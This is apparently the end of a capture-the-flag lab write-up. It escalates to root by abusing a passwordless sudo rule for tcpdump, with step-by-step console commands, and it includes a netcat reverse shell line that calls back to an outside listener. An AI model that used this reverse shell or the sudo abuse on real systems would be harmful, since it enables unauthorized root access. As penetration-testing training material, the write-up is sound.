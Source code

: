 ```console
    (ALL) NOPASSWD: /usr/sbin/tcpdump
[fireman@localhost root]$
```

### Sudo Permissions

An awesome guide how to exploit this you can find it [here](https://gtfobins.github.io/gtfobins/tcpdump/#sudo).

First we write a reverse shell into a file and give it execution permissions.

```console
[fireman@localhost root]$ echo 'nc 192.168.179.1 8081 -e /bin/bash' > /tmp/r00t
<ho 'nc 192.168.179.1 8081 -e /bin/bash' > /tmp/r00t
[fireman@localhost root]$ chmod +x /tmp/r00t
chmod +x /tmp/r00t
```

Then, we set up a netcat listener and run the following command to get a reverse shell as user root.

```console
[fireman@localhost root]$ sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/r00t -Z root
<-i eth0 -w /dev/null -W 1 -G 1 -z /tmp/r00t -Z root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
0 packets dropped by kernel
[fireman@localhost root]$
```

As we can see now we are root and we can read the root flag.

```console
root@kali:~$ nc -vlnp 8081  
listening on [any] 8081 ...         
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.1] 33895
script -qc /bin/bash /dev/null                        
[root@localhost ~]#
```

```console
[root@localhost ~]# ls
ls
flag.txt
[root@localhost ~]# cat flag.txt
cat flag.txt
[+] You're a soldier.
[+] One of the best that the world could set against
[+] the demonic invasion.

+-----------------------------------------------------------------------------+
| |       |\                                           -~ /     \  /          |
|~~__     | \                                         | \/       /\          /|
|    --   |  \                                        | / \    /    \     /   |
|      |~_|   \                                   \___|/    \/         /      |
|--__  |   -- |\________________________________/~~\~~|    /  \     /     \   |
|   |~~--__  |~_|____|____|____|____|____|____|/ /  \/|\ /      \/          \/|
|   |      |~--_|__|____|____|____|____|____|_/ /|    |/ \    /   \       /   |
|___|______|__|_||____|____|____|____|____|__[]/_|----|    \/       \  /      |
|  \mmmm :   | _|___|____|____|____|____|____|___|  /\|   /  \      /  \      |
|      B :_--~~ |_|____|____|____|____|____|____|  |  |\/      \ /        \   |
|  __--P :  |  /                                /  /  | \     /  \          /\|
|~~  |   :  | /                                 ~~~   |  \  /      \      /   |
|    |      |/                        .-.             |  /\          \  /     |
|    |      /                        |   |            |/   \          /\      |
```